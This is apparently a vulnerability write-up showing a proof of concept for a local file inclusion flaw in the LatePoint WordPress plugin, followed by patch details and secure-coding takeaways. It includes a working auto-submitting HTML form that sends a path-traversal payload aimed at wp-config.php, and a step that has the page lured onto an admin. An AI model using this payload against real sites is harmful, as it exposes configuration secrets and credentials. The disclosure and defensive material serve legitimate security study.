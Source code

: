 ### Proof of Concept (PoC)

#### Step 1

Create a webpage containing a form that automatically submits an LFI payload.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <form action="http://localhost:80/wp-admin/admin.php" method="get">
        <input type="text" name="page" value="latepoint">
        <input type="text" name="route_name" value="calendars__view">
        <input type="text" name="layout" value="../../../../../../wp-config">
    </form>
    <script>
        document.forms[0].submit()
    </script>
</body>
</html>
```

#### Step 2

Send the malicious webpage link to an admin or privileged user.

**Result**:

The debugger stopped at `wp-config.php`.

{{< figure src="result.png" caption="Successful LFI result" >}}

> [!INFO]
> Since this CVE is **Unauthenticated**, it leverages a plugin endpoint without nonce checking. Logged-in users visiting the malicious page automatically send the request to the vulnerable WordPress site along with their cookies.

### Conclusion

Versions **≤ 5.1.93** of LatePoint are vulnerable to **LFI** because the `layout` parameter is not validated before being passed to `include()`, leading to potential **local file disclosure** (e.g., `wp-config.php`). The issue was patched in **5.1.94** by sanitizing characters, using `realpath()`, and restricting to valid directories.

### Key takeaways

* This is **LFI (file read)** — no RCE observed in PoC.
* Path-controlled parameters must be **sanitized + canonicalized** before use.
* Use **realpath()** and **base directory validation** to prevent traversal.
* Never **include** directly from request data; use safe helpers like `get_safe_layout_path()`.
